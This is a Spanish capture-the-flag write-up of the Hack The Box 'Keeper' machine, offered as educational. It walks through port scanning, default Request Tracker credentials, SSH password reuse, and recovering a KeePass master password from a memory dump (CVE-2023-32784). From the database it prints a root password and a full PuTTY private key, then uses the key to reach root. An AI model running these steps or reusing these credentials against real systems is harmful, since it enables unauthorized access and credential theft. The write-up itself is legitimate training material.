




---

# Ficha técnica


| **Campo**                | **Detalle**                                                                                                                                                                                                                                                              |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Nombre de la Máquina** | Keeper                                                                                                                                                                                                                                                                   |
| **Dificultad**           | Fácil _(Easy)_                                                                                                                                                                                                                                                           |
| **Sistema Operativo**    | Linux                                                                                                                                                                                                                                                                    |
| **Creador**              | Knightmare                                                                                                                                                                                                                                                               |
| **Fecha de Lanzamiento** | 12 de agosto de 2023                                                                                                                                                                                                                                                     |
| **Técnicas Empleadas**   | **Acceso Inicial:** Abuso de políticas de contraseñas débiles (credenciales por defecto y reutilización de las mismas).**Escalada de Privilegios:** Volcado (_Dumping_) de memoria en procesos de KeePass para extracción de la contraseña maestra (**CVE-2023-32784**). |

>[!WARNING] **Importante:** Este informe tiene fines puramente educativos. Los procedimientos descritos se realizaron en un entorno controlado (Hack The Box) con el fin de mejorar habilidades en ciberseguridad y auditoría.

---

# 1. Reconocimiento


## Comprobación de conectividad

Para iniciar la fase de reconocimiento en este CTF, el primer paso es verificar la conectividad entre nuestra máquina de atacante y el objetivo. Para ello, se utiliza la herramienta `ping` enviando un total de cuatro paquetes ICMP.

**Comando ejecutado:**

```bash
ping -c 4 10.129.229.41
```

**Resultado:**

```bash
PING 10.129.229.41 (10.129.229.41) 56(84) bytes of data.
64 bytes from 10.129.229.41: icmp_seq=1 ttl=63 time=115 ms
64 bytes from 10.129.229.41: icmp_seq=2 ttl=63 time=118 ms
64 bytes from 10.129.229.41: icmp_seq=3 ttl=63 time=117 ms
64 bytes from 10.129.229.41: icmp_seq=4 ttl=63 time=117 ms

--- 10.129.229.41 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 114.793/116.647/117.799/1.142 ms
```

### Análisis de los datos

- **Conectividad:** Se transmitieron cuatro paquetes y se recibieron todos de vuelta (0% de pérdida), lo que confirma una conectividad estable con el objetivo.
- **Sistema Operativo:** El valor del TTL (_Time To Live_) recibido es de **63**. Al ser un valor inmediatamente próximo a 64 (el estándar por defecto para sistemas Linux), podemos inferir que el sistema operativo de la máquina víctima es **Linux** (probablemente pasando a través de un nodo intermediario que restó 1 al TTL original).

---

## Escaneo de puertos

Tras comprobar la conectividad con el sistema objetivo, se procedió a realizar una enumeración exhaustiva de puertos abiertos utilizando la herramienta `nmap`.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.229.41 -oN portScan
```

**Desglose técnico de los parámetros:**

- `-p-`: Escanea el rango completo de puertos (los 65,535 puertos TCP).
- `--open`: Filtra el resultado para mostrar únicamente los puertos con estado abierto.
- `-sS`: Realiza un escaneo de tipo _TCP Syn Stealth Scan_, agilizando el proceso y evitando completar el saludo de tres vías (_three-way handshake_).
- `--min-rate 5000`: Configura la tasa mínima de emisión a 5,000 paquetes por segundo, acelerando notablemente el escaneo.
- `-Pn`: Omite el descubrimiento de hosts previos (asume que el objetivo está activo).
- `-n`: Deshabilita la resolución DNS para ahorrar tiempo.

**Resultados obtenidos:**

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Análisis de los Resultados

El escaneo inicial determinó que la máquina objetivo presenta una superficie de ataque bastante reducida, exponiendo únicamente dos puertos bajo el protocolo TCP:

- **Puerto 22 (SSH):** Utilizado comúnmente para la administración remota segura del servidor.
- **Puerto 80 (HTTP):** Indica la presencia de un servicio web activo.

**Próximo paso:** El siguiente paso lógico en la metodología es realizar un escaneo dirigido y más intrusivo sobre estos dos puertos específicos.

---

# 2. Enumeración


## Enumeración de Puertos y Servicios con Nmap

Una vez identificados los puertos abiertos, se procedió a realizar un escaneo dirigido y más exhaustivo sobre los puertos activos (**22** y **80**) con el fin de determinar con precisión las versiones de los servicios ejecutándose y aplicar los *scripts* de reconocimiento por defecto de la herramienta.

**Comando ejecutado:**

```bash 
nmap -p22,80 -sCV 10.129.229.41 -oN serviceEnum
```

**Desglose técnico de los parámetros:**

- `-sC`: Ejecuta un conjunto de scripts de enumeración por defecto de _Nmap Scripting Engine_ (NSE).
- `-sV`: Realiza un análisis de detección de versiones para identificar el software subyacente y su compilación exacta.

### Resultados

A partir de la salida generada por `nmap`, se consolidó la siguiente matriz de análisis de servicios:

| **Puerto** | **Servicio** | **Versión**                                | **Vulnerabilidades Conocidas**                                                     | **Información Relevante**                                                                                                                                                                                                                          |
| ---------- | ------------ | ------------------------------------------ | ---------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **22**     | SSH          | OpenSSH 8.9p1<br><br>_(Ubuntu 3ubuntu0.3)_ | No se detectaron vulnerabilidades públicas conocidas para esta versión específica. | El banner del servicio confirma que el sistema operativo de la máquina objetivo es **Ubuntu Jammy**.                                                                                                                                               |
| **80**     | HTTP         | nginx 1.18.0                               | No se detectaron vulnerabilidades públicas conocidas para esta versión específica. | El banner de Nginx coincide con los repositorios estándar de Ubuntu. Esto reduce la probabilidad de que el servicio web esté aislado dentro de un contenedor (como Docker) y refuerza la hipótesis de que corre directamente en el host principal. |

---

## Enumeración Web

Se analizó el sitio web empleando la herramienta `whatweb` con el objetivo de identificar en detalle las tecnologías utilizadas en el servidor; sin embargo, no se obtuvo información adicional relevante.

Ante esto, se realizó una petición utilizando `curl` para inspeccionar directamente el código fuente de la respuesta HTTP. El análisis del documento HTML reveló que el sitio web hace uso de **Virtual Hosting** y expone un subdominio específico para la gestión de soporte.

**Código HTML de la respuesta:**

```html
<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

### Hallazgos Clave:

- **Subdominio Identificado:** `tickets.keeper.htb`
- **Acción requerida:** Para poder interactuar correctamente con este servicio web, será necesario agregar el dominio `keeper.htb` y el subdominio `tickets.keeper.htb` al archivo `/etc/hosts` de nuestra máquina atacante.

---

## Inspección visual de la página web

Al ingresar a la página web principal, solo se visualiza el mensaje que redirige al usuario al subdominio `http://tickets.keeper.htb/rt/` para la gestión de tickets de soporte. Al acceder a dicha URL, se presenta un panel de autenticación que confirma la presencia del software **Request Tracker (RT)**.

Tras realizar una búsqueda de las credenciales por defecto de la aplicación, se identificó el par **`root:password`**. Al probarlas en el panel de inicio de sesión, estas resultaron ser válidas, otorgando acceso inmediato al panel de administración del sitio.



### Enumeración de Usuarios y Credenciales

Una vez dentro del panel de administración, se realizó una inspección de los perfiles y configuraciones disponibles, logrando exfiltrar las siguientes credenciales de usuario:

| **Usuario** | **Correo electrónico** | **Contraseña** |
| :---------: | :--------------------: | :------------: |
|  lnorgaard  |  lnorgaard@keeper.htb  |  Welcome2023!  |
|    root     |   [[root@localhost]]   |    password    |

#### Análisis de Vectores de Ataque

Durante la inspección también se identificó que la versión en ejecución es **Request Tracker 4.4.4**. Aunque esta versión cuenta con vulnerabilidades públicas asociadas, se determinó el siguiente plan de acción basado en los hallazgos:

1. **Debilidad en la política de contraseñas:** La reutilización y el uso de credenciales débiles es evidente en el entorno web.
2. **Servicio SSH activo:** Recordando que el puerto 22 se encuentra abierto, el vector más directo y limpio es la reutilización de credenciales.

**Próximo paso:** Se procederá a verificar si las credenciales exfiltradas permiten el acceso remoto a la máquina objetivo a través de **SSH**, evitando así la necesidad de explotar vulnerabilidades de software más complejas.

---

# 3. Acceso inicial (Intrusión)

Tras realizar las pruebas de reutilización de credenciales en el servicio SSH (puerto 22), se obtuvieron los siguientes resultados:

- **Usuario root:** Las credenciales extraídas del panel web (`root:password`) **no** son válidas para el acceso al sistema operativo.
- **Usuario lnorgaard:** Las credenciales (`lnorgaard:Welcome2023!`) resultaron ser **válidas**, permitiendo establecer una sesión remota exitosa.

De este modo, se logró una intrusión limpia y discreta en la máquina objetivo mediante SSH, obteniendo acceso al sistema como un usuario legítimo y sin la necesidad de explotar vulnerabilidades de software o generar alertas innecesarias en la red.



---

# 4. Post-Explotación


## Enumeración local

Tras obtener el acceso inicial, se procedió a realizar una enumeración local del sistema para comprender el entorno y buscar vectores de elevación de privilegios.

Durante esta fase, se confirmó que el sistema operativo objetivo es efectivamente **Ubuntu Jammy** y, mediante la verificación de variables de entorno y la estructura del sistema, se corroboró la hipótesis inicial: el acceso se realizó directamente sobre la **máquina host real** y no dentro de un contenedor aislado.

### Hallazgos en el Directorio Home

Al listar el contenido del directorio local del usuario `lnorgaard`, se identificaron dos elementos clave:

1. **La primera flag (`user.txt`):** Que confirma el compromiso del usuario en la máquina.
2. **Un archivo comprimido (`RT30000.zip`):** Un artefacto de interés para la investigación.

**Transferencia del Archivo:** Tras verificar que el sistema cuenta con `python3` instalado, se montó un servidor HTTP temporal en la máquina víctima para descargar el archivo `RT30000.zip` de forma local en nuestra máquina atacante y proceder con su respectivo análisis estático y descompresión.

```bash
# Comando en la máquina víctima para exponer el archivo
python3 -m http.server 6200
```

---

## Inspección del archivo comprimido

Utilizando el servidor HTTP temporal previamente configurado en la máquina víctima, se descargó el archivo comprimido en la máquina atacante mediante la herramienta `wget`.

**Comando ejecutado:**

```bash
wget http://10.129.229.41:6200/RT30000.zip
```

Una vez descargado, se procedió a extraer su contenido utilizando la herramienta `unzip`, identificando los siguientes dos archivos:

- `KeePassDumpFull.dmp`: Un volcado de memoria de un proceso en ejecución.
- `passcodes.kdbx`: Una base de datos cifrada del gestor de contraseñas KeePass.

El hallazgo de estos archivos confirmó que se trataba de un respaldo del gestor de credenciales **KeePass**, por lo que el siguiente paso lógico es investigar por formas de recuperar las contraseñas de la base de datos.

---

## Análisis de archivos

Para determinar la versión de la base de datos y buscar posibles vectores de ataque, se ejecutó el comando `file` sobre el archivo `.kdbx`:

```bash
file passcodes.kdbx
```

**Resultado:**

```bash
passcodes.kdbx: Keepass password database 2.x KDBX
```

El resultado confirmó que se trata de una base de datos en formato **KDBX 2.x**. Con esta información, se realizó una búsqueda de vulnerabilidades conocidas relacionadas con volcados de memoria (`.dmp`) y bases de datos de KeePass, identificando el **CVE-2023-32784**.

### Vulnerabilidad Identificada: CVE-2023-32784

Esta vulnerabilidad afecta a las versiones de KeePass desde la **2.00 hasta la 2.53**. Permite a un atacante con acceso a un volcado de memoria del proceso (`KeePassDumpFull.dmp`) recuperar casi en su totalidad la **contraseña maestra** de la base de datos en texto claro, debido a que los caracteres ingresados quedan expuestos de forma residual en la memoria de la aplicación.

---

## Extracción de la Contraseña Maestra (Dumping)

Tras investigar la metodología de explotación para el CVE-2023-32784, se localizó un exploit público en **GitHub** escrito en Python diseñado para automatizar la recuperación de caracteres desde el volcado de memoria.

- **Repositorio del proyecto:** https://github.com/z-jxy/keepass_dump

Una vez descargado el script en la máquina atacante, se ejecutó sobre el archivo `KeePassDumpFull.dmp` utilizando la siguiente sintaxis:

```bash
python3 keepass_dump.py --recover -f KeePassDumpFull.dmp
```

### Resultados y análisis

Tras la ejecución del script, se obtuvo la siguiente cadena de texto parcial:

```bash
{UNKNOWN}dgrd med flde
```

El resultado `{UNKNOWN}` indica la presencia de caracteres residuales que la herramienta no logró reconstruir con total precisión debido a la naturaleza de la vulnerabilidad en la memoria.

Para completar los bytes faltantes, se realizó una búsqueda de la cadena, identificando la frase exacta: **"Rødgrød med fløde"**.

Este hallazgo es completamente coherente con el contexto de la máquina, ya que se trata de un postre tradicional de origen Danés, lo cual coincide de forma directa con la nacionalidad del usuario **`lnorgaard`** identificado previamente en la aplicación web.

---

## Acceso a la Base de Datos de Contraseñas

Tras identificar una posible credencial candidata, se procedió a instalar **KeePassXC** en la máquina atacante para volcar e inspeccionar la información de la base de datos local.

Dado que el sistema operativo empleado es **Parrot Security**, la instalación se realizó a través del gestor de paquetes `apt` con el siguiente comando:

```bash
sudo apt update && sudo apt install keepassxc
```

Una vez instalada la herramienta, se inició su interfaz gráfica (GUI). Desde el menú superior, se navegó a **Base de datos > Abrir base de datos**, seleccionando el archivo correspondiente desde la ruta de almacenamiento para iniciar el proceso de autenticación.



### Resultados obtenidos

- **Primer intento:** Se introdujo la contraseña candidata `Rødgrød med fløde`, resultando en un acceso fallido.
- **Resolución del incidente:** Bajo la hipótesis de que la contraseña base era la correcta pero presentaba variaciones de capitalización (común en procesos de _dumping_ de memoria o hashes), se modificó la primera letra a minúscula (`rødgrød med fløde`).

Este ajuste permitió el acceso exitoso a la base de datos, logrando comprometer el contenedor y listar la totalidad de las credenciales almacenadas en su interior.

----

## Escalada de Privilegios

Tras descifrar con éxito la base de datos de KeePass utilizando la contraseña maestra obtenida (`rødgrød med fløde`), se procedió a la inspección de su contenido. Dentro del gestor de credenciales, se identificaron los siguientes elementos asociados al usuario administrador:

- **Usuario:** `root`
- **Contraseña:** `F4><3K0nd!`

Al intentar reutilizar esta contraseña para acceder directamente como `root` a través del servicio SSH, el intento de autenticación **falló**, lo que indicó que el acceso directo por contraseña para el administrador se encuentra deshabilitado en el servidor o posiblemente la contraseña fue cambiada.

Sin embargo, tras revisar detalladamente las notas y campos adicionales adjuntos al registro del usuario `root`, se localizó un bloque de datos con el encabezado **`PuTTY-User-Key-File-3: ssh-rsa`**. Esto confirmó que existía otra vía de acceso mediante una clave privada de SSH, aunque almacenada en el formato propietario de PuTTY (`.ppk`) en lugar del formato estándar de OpenSSH.

```bash
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

---

### Conversión de la Clave Privada a OpenSSH

Para poder utilizar esta llave desde nuestra consola de Linux nativa, es necesario transformarla al formato estándar de OpenSSH. Para ello se utilizó la suite de herramientas de `putty`.

**1. Instalación de la herramienta:**

```bash
sudo apt install putty -y
```

**2. Conversión del formato:** Primero, se guardó el bloque de texto anterior en un archivo local llamado `root_key.ppk`. Posteriormente, se ejecutó el comando `puttygen` para realizar la conversión:

```bash
puttygen root_key.ppk -O private-openssh -o id_rsa
```

**Desglose técnico del comando:**

- `-O private-openssh`: Define el formato de salida (_Output_) deseado, en este caso, especificando que se genere una clave privada compatible con OpenSSH.
- `-o id_rsa`: Indica el nombre del archivo final donde se guardará la clave (utilizando la nomenclatura estándar `id_rsa`).

----

## Acceso al Sistema como Usuario Root

Una vez generado el archivo de clave privada `id_rsa` en el formato correcto de OpenSSH, se procedió a configurar los privilegios del archivo y a establecer la conexión SSH hacia la máquina objetivo para consolidar la escalada de privilegios.

**1. Asignación de permisos seguros:** En sistemas basados en Unix, SSH requiere estrictamente que las claves privadas tengan restricciones de lectura para evitar que otros usuarios locales accedan a ellas. Se aplicaron los permisos correspondientes mediante `chmod`:

```bash
chmod 600 id_rsa
```

**2. Conexión SSH mediante clave privada:** Se inició la sesión remota apuntando al usuario `root` e indicando la ubicación de la clave con el parámetro `-i`:

```bash
ssh -i id_rsa root@10.129.229.41
```

### Resultado y Conclusión

Al ejecutar el comando, el servidor validó la firma de la clave privada de forma exitosa, otorgando una sesión interactiva directamente como el usuario **`root`**.

Con este nivel de privilegios máximos dentro del sistema, se procedió a visualizar el archivo de la directiva de administración final (`root.txt`), obteniendo la última _flag_ y concluyendo con éxito la auditoría y resolución de este reto CTF.



----


